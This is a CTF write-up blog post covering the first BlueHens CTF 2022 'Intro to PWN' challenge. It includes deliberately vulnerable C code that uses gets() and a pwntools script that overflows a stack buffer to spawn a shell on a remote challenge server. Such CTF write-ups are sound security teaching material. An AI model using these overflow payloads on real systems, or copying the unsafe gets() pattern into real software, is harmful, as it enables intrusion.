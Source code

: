 ```yaml
---
title: 'BlueHens CTF 2022 PWN Writeups'
date: 2022-10-31T00:00:00+00:00
author: Kris
layout: post
image: /images/2022/bluehens/bluehens.png
categories:
  - Write-Ups
  - PWN
---
```

Pretty fun CTF organized by the BlueHens CTF team from the University of Delaware. This one featured a bunch of Minecraft challenges but also the typical PWN, Crypto, Reversing and Web categories. 

These are my solutions for the entire Intro to PWN series which had 8 fun binaries to pwn.

#### <a name="pwn1"></a>Intro to PWN 1 - PWN - 50 points

This challenge comes with 2 files, the source code in `main.c` and the binary itself. The challenge reads:

```
#1. Smash a variable
```

The code from `main.c` reads:

```c
#include <stdio.h> 
#include <stdlib.h> 


int main(){
    char buf[0x100]; 
    int overwrite_me; 
    overwrite_me = 1234; 
    puts("Welcome to PWN 101, smash my variable please.\n"); 
    gets(buf); 
    if (overwrite_me == 0x1337){ 
        system("/bin/sh"); 
    } 
    return 0; 
} 

```

The challenge seems straightforward, write past the `0x100` byte bounds of `buf` and store `0x1337` in overwrite_me. I use a standard boiler plate for exploiting all of these using `pwntools` so excuse the excess stuff to get the simple things done. 

Solution for part 1:

```python
from pwn import *

fname = "./pwnme"
local = False

if local:
    p = process(fname)
else:
    p = remote("0.cloud.chals.io", 19595)

payload = (b"A" * 0x100) + (p32(0x1337) * 4)
p.sendline(payload)
p.interactive()

```